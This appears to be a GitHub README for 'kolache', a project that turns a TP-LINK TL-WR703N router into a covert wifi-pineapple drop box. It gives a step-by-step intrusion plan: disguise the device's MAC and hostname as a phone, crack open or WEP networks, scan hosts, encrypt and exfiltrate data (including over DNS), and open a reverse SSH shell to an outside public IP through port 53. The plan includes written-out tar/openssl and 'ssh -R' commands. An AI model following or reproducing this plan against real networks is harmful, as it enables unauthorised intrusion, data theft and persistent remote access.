 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:
[dig] (https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/)

[xxd] (http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)


1.) External drive will be encrypted. 

> http://oneitguy.com/blog/encrypted-remote-backup-openwrt

> https://dev.openwrt.org/ticket/10787

> http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

> http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Console into the router via Ethernet before 'drop off'.

2.1) Mount the SD card via SSH with encryption password. 

3.) Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.1) Set up the device for monitoring in a given number minutes.

4.) The WR-703N will scans for available wifi networks. It will find unencrypted wifi or WEP and crack them.
  
5.) Once on the target network, does an arp scan / nmap of hosts and other 'fun things' (Navy).

6.) The WR-703N will find its way to internet.

7.) The WR-703N will exfil some data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-128-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) The WR-703N will open a reverse SSH shell into the target network. 
> ssh -R 53:localhost:22 sourceuser@<public ip>

> tunnel through port 53 (because it it is normally unblocked)

9.) Lastly, win... (Navy/Russ)
